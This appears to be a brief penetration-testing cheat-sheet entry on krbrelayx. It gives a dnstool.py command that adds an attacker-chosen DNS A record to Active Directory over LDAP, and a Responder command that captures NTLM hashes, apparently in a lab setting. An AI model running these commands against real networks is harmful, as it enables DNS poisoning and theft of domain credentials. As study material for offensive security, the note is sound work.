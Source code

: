 ```yaml
---
title: "Krbrelayx"
date: 2024-7-23
tags: ["Krbrelayx", "dnstools", "active driectory", "ad", "Windows", "dns"]
---
```


---
### Tools

[krbrelayx](https://github.com/dirkjanm/krbrelayx)

### Abuse #1: Add Active Directory Integrated DNS records via LDAP

```bash
python3 dnstool.py -u <DOMAIN>\\<USER> -p <PASSWORD> --action add --record test --data 10.10.14.10 --type A 10.10.11.10
```

```bash
# Capture NTLM hash
sudo responder -I tun0
```

<br>